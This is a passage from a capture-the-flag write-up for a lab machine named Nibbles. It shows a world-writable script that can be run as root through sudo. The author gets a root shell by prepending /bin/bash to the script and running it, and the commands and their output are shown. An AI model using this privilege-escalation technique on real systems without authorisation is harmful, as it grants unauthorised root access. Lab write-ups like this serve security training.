I run the script, it shows this output:

```bash
Internet:  Disconnected
Operating System Type :  GNU/Linux
OS Name : Ubuntu
UBUNTU_CODENAME=xenial
OS Version : 16.04.3 LTS (Xenial Xerus)
Architecture :  x86_64
Kernel Release :  4.4.0-104-generic
Hostname :  Nibbles
Internal IP :  10.10.10.75 dead:beef::250:56ff:feb9:1875
External IP :  
Name Servers :  DO 10.10.10.2
Logged In users : 
Ram Usages : 
              total        used        free      shared  buff/cache   available
Mem:           974M        235M        122M         10M        616M        524M
Swap Usages : 
              total        used        free      shared  buff/cache   available
Swap:          1.0G          0B        1.0G
Disk Usages : 
Filesystem                    Size  Used Avail Use% Mounted on
/dev/sda1                     472M  133M  330M  29% /boot
Load Average :  0.00,0.00,0.00
System Uptime Days/(HH:MM) :  11:29
```

I can run the script as root, every use can edit it:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4024 Aug 19 03:02 monitor.sh
```

So I just add `/bin/bash` to the beginning of the script and run it as root:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

Now I am root.

# Getting The Root Flag

---